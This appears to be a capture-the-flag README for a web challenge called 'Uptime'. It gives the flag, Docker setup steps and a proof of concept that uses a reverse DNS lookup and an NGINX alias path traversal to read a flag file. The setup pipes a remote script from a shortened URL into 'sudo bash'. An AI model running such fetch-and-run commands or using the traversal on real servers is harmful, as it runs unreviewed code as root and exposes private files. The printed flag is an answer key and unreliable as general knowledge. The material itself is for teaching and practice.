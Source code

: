 # Uptime

> Difficulty: Medium </br> 
> Category: Web </br>
> FLAG: **YASCON{ReverseDnsLookup-d7ad0997540209cbe09e7db4ab4ceb2f}** </br>

## Setup

```bash
$ curl -Ls https://git.io/JUFEA | sudo bash # turning off default DNS Listener
Web-challenge $ bash setupdns.sh -c
Web-challenge $ docker-compose up -d
```

## Challenge PoC

> Reverse DNS Lookup  --> NGINX Alias Path Traversal via Misconfiguration

```bash
$ dig @public-ip -x public-ip # get PTR
$ echo "uptime-dash.yascon.local public-ip" >> /etc/hosts
$ curl http://uptime-dash.yascon.local 
$ curl --path-as-is http://uptime-dash.yascon.local/static../.flag.txt # FLAG!!!
```
<!-- v1dhun 29/09/2020 -->